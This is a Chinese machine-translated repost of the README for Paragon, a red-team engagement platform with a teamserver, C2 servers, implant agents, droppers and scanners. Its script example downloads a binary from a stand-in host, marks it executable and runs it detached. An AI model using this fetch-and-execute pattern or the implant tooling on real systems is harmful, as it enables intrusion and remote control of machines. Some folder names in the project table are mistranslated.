



# Paragon:以统一攻势为目标的红队交战平台

> 原文：<https://kalilinuxtutorials.com/paragon/>

[](https://1.bp.blogspot.com/-s2DZNJNfD-k/YJl48Tq4JZI/AAAAAAAAJDU/donDZ5PNZQc9EagzfZDjRzJVx9JcoZ2mACLcBGAsYHQ/s728/Paragon%25281%2529.png)

**Paragon** 是一个红队交战平台。它旨在将攻击性工具统一在一个简单的 UI 后面，抽象出许多后端工作，使运营商能够专注于编写植入程序，花更少的时间担心数据库和 css。该库还提供了一些已经与 Paragon 集成的进攻性工具，可以在交战中使用。

这个存储库仍在大量开发中，还没有准备好投入生产使用。当它被认为是稳定的，一个 V1.0.0 标签将被释放。在此之前，随着我们不断简化设计，API 可能会遇到突破性的变化。如果你想帮助我们更快达到这个里程碑，请阅读下面的开发者文档。

**特色亮点**

*   轻松集成定制工具，在**单一界面**下统一操作
*   使用提供的 GraphQL API 查询红队知识图
*   用于低延迟自动化和实时处理的事件发射
*   用于部署、后期开发等的类似 Python 的脚本语言
*   包括跨平台植入和部署
*   记录操作员活动，以便方便地汇总到项目后报告中进行审查

**入门**

可以通过克隆存储库并运行`**docker-compose up**`来设置一个快速演示实例。在你的浏览器中打开 [127.0.0.1:80](http://127.0.0.1/) 开始吧！

所使用的映像可以在 docker-hub 上获得，并且可以从 docker-compose 文件进行配置以用于生产部署。

**组件概述**

**脚本语言**

这个库中的大多数组件依赖于一种类似 Python 的脚本语言，这种语言能够对它们的行为进行强大的控制和定制。这种语言是谷歌 starlark T3 的修改版本，为运营商扩展了跨平台功能。这也使得像代理和下载程序(下面讨论)这样的工具能够在不依赖于系统二进制文件( **`curl`、`bash`** 等)的情况下执行任务。在 Golang 中，所有的操作都是作为代码执行的，所以向脚本环境添加额外的功能是很直观的。以下是一个脚本示例:

```
# Download a file via https, execute it, and don't keep it as a child process.
load("sys", "request")

new_bin = "/tmp/kqwncWECaaV"
request("https://library.redteam.tld", writeToFile=new_bin)

# set new_bin permissions to 0755
chmod(new_bin, ownerRead=True, ownerWrite=True, ownerExec=True, groupRead=True, groupExec=True, worldRead=True, worldExec=True)
exec(new_bin, disown=True)

```

**团队服务器**

提供了一个简单的 web 应用程序和 GraphQL API 来与 Red Team knowledge graph 进行交互，统一了集中的事实来源背后的工具，并从操作员那里抽象出许多繁琐的后端问题。将您的定制工具与 Teamserver 集成(使用 GraphQL API 或事件订阅)以节省后端工作的时间。Teamserver 记录所有的活动，因此将所有的工具统一在一个地方，编写项目后报告变得非常容易。

**内置工具**

以下工具也包含在存储库中。它们可以很容易地扩展以适应许多跨平台的用例。

**快捷处理**

*   完全跨平台
*   将资产静态编译成一个二进制文件
*   为自定义部署配置提供类似 Python 的脚本语言

Paragon 提供了打包资产(二进制文件、脚本等)的工具。)转换成一个二进制文件，在执行时将执行您的定制部署脚本，该脚本可以将资产写入文件系统、启动进程、下载文件、处理错误等等。它是完全跨平台和静态编译的，提供可靠的部署。如果你想扩展它的功能，你可以在编译前简单地扩展生成的 golang 文件。

**代理人**

*   完全跨平台
*   为后期开发提供类似 Python 的脚本语言
*   模块化的通信机制，只编译你需要的
    *   利用多个选项来确保可靠的回调
*   自定义代理处理通信失败的方式

执行任务并报告执行结果的植入。默认情况下，它配置为使用 Paragon 的类似 Python 的脚本语言执行任务，并通过 http(s)与 C2 通信。它是用 Go 编写的，可以快速修改以添加新的传输方法(即 DNS)、执行选项、故障转移逻辑等等。

**C2**

*   轻量级部署
*   高性能，能够处理成千上万的代理
    *   取决于系统资源和可用带宽
*   分布式服务，利用尽可能多的 C2s

充当代理和团队服务器之间的中间人。它处理各种通信机制的代理回调，并为它提供来自 teamserver 队列的新任务。

**跑步者**

*   低延迟、实时任务执行
*   易于扩展以增加对更多通信机制的支持
*   分布式服务，利用尽可能多的跑步者

有些情况下，可能需要向前连接来快速执行任务并查看其输出，而不是等待回调。运行者通过订阅任务队列和建立到目标机器的连接(即使用 ssh)来完成这个任务。这使得壳状集成能够利用与植入物和 C2s 相同的接口。它还允许通过该界面进行最初的植入物部署。

**扫描仪**

*   监控可访问的目标服务
*   当服务变得(不)可用时自动响应
*   向知识图提供网络信息，其他工具可以利用这些信息
*   分布式服务，利用尽可能多的扫描仪

监控目标网络活动和可见服务。绘制参与网络的图表，并触发状态变化的自动化(即 ssh 变得可用)。

**常见问题解答**

*   如果机器报告相同的 UUID 会怎样？
    *   为 teamserver 设置`**PG_KS_MachineUUID**` killswitch 环境变量将会禁用利用机器 UUIDs 的查找。

**术语**

为了确保对这些复杂系统的清晰交流，我们在下面列出了一些项目专用术语，这些术语将在整个项目文档中使用。

**植入**

合约期间将在受损系统上运行的任何恶意软件。

**任务**

要在特定受损系统上执行的操作。任务向植入物提供执行指令，然而它们的语法/结构可以完全特定于工具。

**代理人**

从 teamserver 接收任务、执行任务并报告结果的植入。这个存储库包含一个可扩展的默认实现，它要求任务作为使用项目的类似 Python 的 DSL 编写的脚本来提供。

**工作**

请求 Teamserver 执行一组给定的操作。创建作业时，指令将被保存，但不会被执行。用户可以通过将作业排队并向其提供所需的参数来请求 Teamserver 执行作业零次或多次。作业可能永远不会更新，但是可以创建新版本的作业以避免过多的复制粘贴。

作业的一个常见用例是用户希望在几个目标上执行脚本。用户创建一个作业，该作业指示 teamserver 使用所提供的内容创建任务，但是将所需的目标机器作为参数。当作业排队时，用户提供一个目标机器列表作为参数，Teamserver 将为每台机器创建一个任务。

**开发者指南**

以下是 Paragon 开发的初始和简要参考。更多的文档可以在 godocs 包中找到，或者通过阅读一些代码找到🙂在我们完成了一些设计决策之后(远在到达 v1 之前)，代码冻结将会生效，直到所有的文档都被更新和适当地组织。

**先决条件**

*   饭桶
*   码头工人
*   虚拟代码
    *   虽然您可能会使用其他编辑器，但是您将会错过加速 VSCode 开发的定制
    *   需要微软提供的 **`Remote - Containers`** 扩展才能入门。

**环境设置**

安装完上面列出的先决条件后，您就可以立即开始了。只需克隆存储库并在 VSCode 中打开它。系统将提示您在开发容器中打开代码库，该容器已经配置了您需要的所有项目依赖项和开发工具。如果这个选项没有出现，打开命令 pallete 并运行 **`> Remote-Containers: Open Folder In Container`** ，这会为你启动容器。如果这是你第一次启动这个容器，下载可能需要一段时间…所以给自己弄点^_^咖啡吧

**项目布局**

下面是项目结构和每个组件所在位置的概述。如果这变得过时，请随时提交一个问题报告，或者最好是一个 PR 来修复它。代码库被设置为一个单一存储库，这使我们能够利用共享的开发工具、标准化等。同时避免复杂的版本冲突。

| 文件夹 | 用例 |
| --- | --- |
| 。开发容器 | VSCode 容器开发环境的配置。 |
| 。开源代码库 | Github 配置。 |
| 。统计数据 | 一个 git 忽略的目录(可能有，也可能没有),用于存储性能分析输出。 |
| 娱乐 | teamserver 使用的图形相关 API 定义。 |
| graphql | GraphQL 模式&从 ent 生成的相关代码。 |
| 煤矿管理局 | 命令行可执行工具和服务。 |
| 距离 | git 忽略了存储构建工件的目录。 |
| 码头工人 | 用于示例部署的 docker 文件。 |
| 娱乐 | teamserver 使用的图形模型和模式(参见脸书的 [entgo](https://entgo.io/) 工具了解更多信息)。 |
| 包装 | 面向公众的库由存储工具使用，但也向外界公开。 |
| pkg/代理 | 一个易于创建植入或通信传输的抽象。 |
| pkg/c2 | C2 服务相关助手和标准化消息定义。 |
| pkg/C2/因此 | Protobuf 规范定义了代理 C2 通信的标准化序列化格式。 |
| 包装/丢弃 | 提供一个由已编译的释放器有效负载使用的简单方法。 |
| pkg/中间件 | HTTP 服务的通用中间件。 |
| pkg/脚本 | 类似 Python 的脚本语言，用于动态配置、自动化和跨平台开发。 |
| pkg/script/stdlib | 公开脚本执行环境功能的标准库。 |
| pkg/teamserver | Teamserver 服务相关助手。 |
| 万维网 | 包含由 teamserver 托管的主要 web 应用程序。由脸书的 create-react-app 应用程序创建。 |
| www/src/components | 可重复使用的反应元件。 |
| www/src/config | Web 应用程序配置和路由。 |
| www/src/views | 从 Teamserver 中查询数据并组成要呈现的组件的容器。 |

**知识图表**

下面是 Teamserver 管理的红色团队知识图中节点之间关系的概述。



**代理参考**

运输优先权。要使用您自己的，只需实现[代理。发送方](https://godoc.org/github.com/KCarretto/paragon/pkg/agent#Sender)接口，并在初始化期间注册您的传输。现有传输的例子可以在`**agent**`包的子目录中找到。

**任务执行**

默认情况下，代理希望任务遵循 starlark 语法，并公开一个标准库供脚本使用。为了改变任务执行的行为(例如，只是 bash 命令)，您可以实现[代理。Receiver](https://godoc.org/github.com/KCarretto/paragon/pkg/agent#Receiver) 接口执行你喜欢的任务。

**脚本环境**

可以为您的代理定制脚本环境，使您能够轻松地打包新功能以供脚本使用。参见[脚本选项](https://godoc.org/github.com/KCarretto/paragon/pkg/script#Option)了解如何扩展代理的脚本引擎。

**执行流程**

下面是代理植入的一般执行的流程图。

**添加运输工具**

该代理被设计为易于使用新的传输机制进行定制，基于

[**Download**](https://github.com/KCarretto/paragon)